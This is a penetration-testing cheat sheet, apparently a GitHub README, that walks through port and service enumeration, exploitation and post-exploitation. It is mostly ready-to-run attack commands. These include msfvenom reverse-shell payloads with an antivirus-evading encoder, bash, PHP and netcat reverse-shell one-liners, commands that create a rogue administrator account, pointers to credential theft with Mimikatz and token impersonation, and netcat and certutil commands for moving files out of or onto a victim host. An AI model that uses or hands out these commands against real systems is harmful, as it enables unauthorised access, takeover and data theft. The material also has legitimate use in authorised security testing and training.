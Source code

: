 # 1. Enumeration
## Intital Scanning
First run an asynchronous port scan on the box to find the ports of interest.

```bash    
# Standard
unicornscan $RHOST

# Full Range
unicornscan $RHOST:0-65535
```

Second, run a slower, synchronous scans with scripts.

## Port 21 - FTP
```bash
# Anonymous login
nmap --script=ftp-anon -p 21 $RHOST

# Bruteforce logins
nmap --script=ftp-brute -p 21 $RHOST
```

## Port 80 - HTTP

```bash
nikto $RHOST

curl $RHOST/robots.txt

dirbuster
```
#### Wordpress
```bash
nmap --script=http-wordpress* -p 80 $RHOST

wpscan $RHOST
```

## Port 139/445 - SMB
```bash
enum4linux [-u username][-p password] $RHOST

smbmap [-u username][-p password] $RHOST

# Info dump
nmap --script=smb-enum*.nse -p 139,445 $RHOST

# OS discovery
nmap --script=smb-os-discovery.nse -p 139,445 $RHOST

# Scan for known vulnerabilties
nmap --script=smb-vuln* -p 139,445 $RHOST
```


# 2. Exploitation
## MSFVenom Reverse Shell Payloads
### Generate Payloads

```bash
msfvenom -p $PAYLOAD LHOST=$LHOST LPORT=$LPORT [-e $ENCODER [-i $ROUNDS]] [-b $BADCHARS] [-f $FORMAT] [-o $FILENMAE]
```

### Payloads
| Windows       |                                   |
|:--------- 	|   -----------------------------:	|
|   Staged  	| ``windows/shell/reverse_tcp`` 	|
| Stageless 	| ``windows/shell_reverse_tcp`` 	|

| Linux         |                                   |
|:--------- 	|   -----------------------------:	|
|   32bit   	| ``linux/x86/shell_reverse_tcp`` 	|
| 64bit      	| ``linux/x64/shell_reverse_tcp`` 	|

#### Encoders
``x86/shikata_ga_nai``

## Bash Reverse Shells
```bash
0<&196;exec 196<>/dev/tcp/$LHOST/$LPORT; sh <&196 >&196 2>&196
```
```bash
bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
```

## PHP Reverse Shells
### One Liner
```php
<?php $sock = fsockopen($LHOST,$LPORT); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes) ?>
```
### File Upload
Kali File Location: `/usr/share/webshells/php/php-reverse-shell.php` <sup><sub>[[archive](files/php-reverse-shell.php)]

## Netcat Reverse Shells
### Unix
```bash
nc -e /bin/sh $LHOST $LPORT
```

### OpenBSD
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $LHOST $PORT >/tmp/f
```

# 3. Post-Exploitation

## Linux
### Enumeration Scripts:
- [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) <sup><sub>[[archive](files/LinEnum.sh)]

- [linuxprivchecker.py](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py) <sup><sub>[[archive](files/linuxprivchecker.py)]

- [unix-privesc-check.sh](https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh) <sup><sub>[[archive](files/upc.sh)]

## Windows
### Enumeration Scripts
- [windows-exploit-suggester.py](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py)  <sup><sub>[[archive](files/windows-exploit-suggester.py)]

- [windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check) <sup><sub>[[archive](files/windows_privesc_check.py)]

- [Sherlock](https://github.com/rasta-mouse/Sherlock) <sup><sub>[[archive](files/Sherlock.ps1)]

### Resources
- https://guif.re/windowseop

### Creating Admin Account
```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jim -p sparrow [IP-ADDRESS]
```

### Tokens
If you have admin, loot tokens & creds with [Mimikatz](https://github.com/gentilkiwi/mimikatz)

If you have a service account, and want root - try token impersonation!

- [Juicy Potato](https://github.com/ohpe/juicy-potato)
- [Churrasco](https://github.com/Re4son/Churrasco)

### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

## Exfiltration

- SSH Copy (scp)
```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

- Netcat
```bash
# Victim
nc -nvlp $RPORT > out.file

# Kali
nc -nv $RHOST $RPORT < in.file
```

- exe2bat
```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

- certutil.exe
```bash
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

- [zip.vbs](files/zip.vbs) <sup><sub>[[copy&paste](files/zip.vbs.txt)]
```bash
CScript zip.vbs $SRC $DEST
```

- [wget.vbs](files/wget.vbs) <sup><sub>[[copy&paste](files/wget.vbs.txt)]
```bash
CScript wget.vbs $SRC $DEST
```